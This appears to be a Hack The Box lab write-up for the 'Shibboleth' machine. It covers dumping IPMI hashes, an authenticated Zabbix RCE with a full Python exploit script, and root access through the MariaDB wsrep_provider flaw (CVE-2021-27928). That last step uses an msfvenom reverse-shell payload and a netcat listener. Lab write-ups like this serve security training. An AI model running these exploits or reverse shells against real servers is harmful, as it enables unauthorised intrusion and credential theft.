

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.11.124 shibboleth.htb

**nmap scan:**
```bash
#TCP
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://shibboleth.htb/
Service Info: Host: shibboleth.htb

#UDP
PORT    STATE  SERVICE     VERSION
623/tcp closed oob-ws-http
623/udp open   asf-rmcp
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port623-UDP:V=7.91SVN%I=7%D=11/23%Time=619CD6CF%P=x86_64-unknown-linux-
SF:gnu%r(ipmi-rmcp,1E,"\x06\0\xff\x07\0\0\0\0\0\0\0\0\0\x10\x81\x1cc\x20\x
SF:008\0\x01\x97\x04\x03\0\0\0\0\t");
```

* webserver redirect to `http://shibboleth.htb/`
* Running nmap udp scan found port 623 and nmap fingerprint show **`ipmi-rmcp`**. 

Web have nothing interesting


**ffuf** Subdomain scan, found multiple subdomain
```bash
❯ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.shibboleth.htb" -u http://10.10.11.124 -ac -t 100

# ... [snip] ...

monitor                 [Status: 200, Size: 3686, Words: 192, Lines: 30, Duration: 5532ms]
monitoring              [Status: 200, Size: 3686, Words: 192, Lines: 30, Duration: 334ms]
zabbix                  [Status: 200, Size: 3686, Words: 192, Lines: 30, Duration: 339ms]
```

all subdomain lead to [zabbix](https://www.zabbix.com/) login page


# Foothold

## ipmi

The Intelligent Platform Management Interface is a set of computer interface specifications for an autonomous computer subsystem that provides management and monitoring capabilities independently of the host system's CPU, firmware and operating system.

* Good blog on ipmi pentesting: https://www.rapid7.com/blog/post/2013/07/02/a-penetration-testers-guide-to-ipmi/

There is a vulnerability in ipmi
```bash
PORT    STATE SERVICE
623/udp open  asf-rmcp
| ipmi-cipher-zero: 
|   VULNERABLE:
|   IPMI 2.0 RAKP Cipher Zero Authentication Bypass
|     State: VULNERABLE
|     Risk factor: High
|       
|       The issue is due to the vendor shipping their devices with the
|       cipher suite '0' (aka 'cipher zero') enabled. This allows a
|       remote attacker to authenticate to the IPMI interface using
|       an arbitrary password. The only information required is a valid
|       account, but most vendors ship with a default 'admin' account.
|       This would allow an attacker to have full control over the IPMI
|       functionality
|           
|     References:
|       https://www.us-cert.gov/ncas/alerts/TA13-207A
|_      http://fish2.com/ipmi/cipherzero.html
```

There's also a metasploit module for dumping password hashes using this vulnerability: https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_dumphashes/


Dump some password hash 
```bash
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set RHOSTS 10.10.11.124
RHOSTS => 10.10.11.124
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set OUTPUT_hASHCAT_FILE hash.cat
OUTPUT_hASHCAT_FILE => hash.cat
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.10.11.124:623 - IPMI - Hash found: Administrator:763fdea402871f00d8c34ccbdd521760dbff76f5a0c8fc1c74de67248e196135d83dfafd88d840a3a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:6016af14efa2712414fb09c26675de2e7c2ccb20
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

dumped hashes output in the `hash.cat` file and directly load in hashcat
```bash
❯ hashcat --username -m 7300 hash.cat /usr/share/wordlists/rockyou.txt --show
10.10.11.124 Administrator:763fdea402871f00d8c34ccbdd521760dbff76f5a0c8fc1c74de67248e196135d83dfafd88d840a3a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:6016af14efa2712414fb09c26675de2e7c2ccb20:ilovepumkinpie1
```

Creds: `Administrator:ilovepumkinpie1`

And successfully logged in to zabbix(`zabbix.shibboleth.htb`) with found creds.


## zabbix

Zabbix is an open-source monitoring software tool for diverse IT components, including networks, servers, virtual machines and cloud services. Zabbix provides monitoring metrics, among others network utilization, CPU load and disk space consumption.

* zabbix version is `5.0.17`

I tried to install zabbix-cli tool and run it but the zabbix api is Forbidden and return 403.


I Found a [stackoverflow answer](https://stackoverflow.com/questions/24222086/how-to-run-command-on-zabbix-agents) about executing system commands from zabbix agent.


Creating new item in running host




Create new item and set payload in key option and click on "test" and then "get value and test" to execute command immediately


**Here is a simple python script to automate this process**
```py
#!/usr/bin/python3

"""
Application: zabbix 5.0.17
Description: zabbix authenticated RCE through "system.run[]"
"""

import re
import sys
import requests as r
import json

# print("/** Author: x00tex **/")
url = 'http://zabbix.shibboleth.htb'
username = 'Administrator'
password = 'ilovepumkinpie1'

s = r.session()
login = s.post(f'{url}/index.php',
               data={"name": username, "password": password, "autologin": 1, "enter": "Sign in"})


class Get_host:
    def __init__(self):
        rspn = s.get(f'{url}/hosts.php')
        self.hostid = re.findall(r'hostid=(.*?)">(.*?)</a>', rspn.text)
        self.sid = re.findall(r'sid=(.*?)\'', rspn.text)


def get_values():
    return Get_host()


t = get_values()
print("[+] All Hosts")
for i in t.hostid:
    print(f"{i[1]}:{i[0]}")


def exploit(payload):
    data = {"key": f"system.run[{payload}]", "delay": "", "value_type": 3, "item_type": 0, "itemid": 0,
            "interfaceid": 0, "get_value": 1, "interface[address]": "127.0.0.1", "interface[port]": 10050,
            "proxy_hostid": 0, "show_final_result": 1, "test_type": 0, "hostid": t.hostid[0][0], "valuemapid": 0, "value": ""}
    rce = s.post(f'{url}/zabbix.php?sid={t.sid[0]}&action=popup.itemtest.send', data=data)
    return rce.text


payload = sys.argv[1]
output = json.loads((exploit(payload)))
print('[+] Payload output')


if "value" in output:
    print(output["value"])
else:
    print(output)


s.close()
```

Exploit in action
```bash
❯ python exploit.py 'id'
/** Author: x00tex(poorduck) **/
[+] All Hosts
shibboleth.htb:10084
[+] Payload output
uid=110(zabbix) gid=118(zabbix) groups=118(zabbix)
```

There is a problem when i try to get reverse shell on the box, the shell dies immediately. If we read through the zabbix agent [docs](https://www.zabbix.com/documentation/2.4/manual/config/items/itemtypes/zabbix_agent) in "system.run" they specify 2 modes and default mode is "`wait`" which wait for the command output and display the output and "`nowait`" just execute and return 1 if command executes and 0 if not and move on.


# Privesc

Get reverse shell as user "zabbix" and zabbix dashboard password reused for system user "ipmi-svc"
```bash
(remote) zabbix@shibboleth:/tmp$ id
uid=110(zabbix) gid=118(zabbix) groups=118(zabbix)
(remote) zabbix@shibboleth:/tmp$ su ipmi-svc
Password: 
ipmi-svc@shibboleth:/tmp$
```

There is a mysql server in the localhost
```bash
ipmi-svc@shibboleth:~$ ss -lntp | grep 127
LISTEN  0        869            127.0.0.1:3306           0.0.0.0:*
```

linpeas show zabbix config file is readable by "ipmi-svc"
```bash
╔══════════╣ Readable files belonging to root and readable by me but not world readable
-rw-r----- 1 root ipmi-svc 22306 Oct 18 09:24 /etc/zabbix/zabbix_server.conf.dpkg-dist
-rw-r----- 1 root ipmi-svc 21863 Apr 24  2021 /etc/zabbix/zabbix_server.conf
```

Read through the config file found database password
```bash
ipmi-svc@shibboleth:~$ cat /etc/zabbix/zabbix_server.conf | grep -v '#' | grep -E 'DB*'

DBName=zabbix
DBUser=zabbix
DBPassword=bloooarskybluh
```

## mysql 'wsrep_provider' OS Command Execution

Got some password hashes from "zabbix" database
```bash
MariaDB [zabbix]> select alias,passwd from users;
+---------------+--------------------------------------------------------------+
| alias         | passwd                                                       |
+---------------+--------------------------------------------------------------+
| Admin         | $2y$10$L9tjKByfruByB.BaTQJz/epcbDQta4uRM/KySxSZTwZkMGuKTPPT2 |
| guest         | $2y$10$89otZrRNmde97rIyzclecuk6LwKAsHN0BcvoOKGjbT.BwMBfm7G06 |
| Administrator | $2y$10$FhkN5OCLQjs3d6C.KtQgdeCc485jKBWPW4igFVEgtIP3jneaN7GQe |
+---------------+--------------------------------------------------------------+
```

"Administrator" user password we already have and other 2 hashes are not crackable.

Viewing the database version 
```bash
MariaDB [(none)]> SELECT VERSION();
+----------------------------------+
| VERSION()                        |
+----------------------------------+
| 10.3.25-MariaDB-0ubuntu0.20.04.1 |
+----------------------------------+
1 row in set (0.000 sec)
```

There is a OS Command Execution vulnerability in MariaDB 10.2 before 10.2.37, **10.3 before 10.3.28**, 10.4 before 10.4.18, and 10.5 before 10.5.9 [CVE-2021-27928](https://jira.mariadb.org/browse/MDEV-25179):https://www.exploit-db.com/exploits/49765

Follow the PoC

1. Create the reverse shell payload
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f elf-so -o CVE-2021-27928.so
```

1. Start a listener
```bash
nc -lvp <port>
```

3. Copy the payload to the target machine
4. Execute the payload
```bash
mysql -u zabbix -pbloooarskybluh -e 'SET GLOBAL wsrep_provider="/tmp/CVE-2021-27928.so";'
```


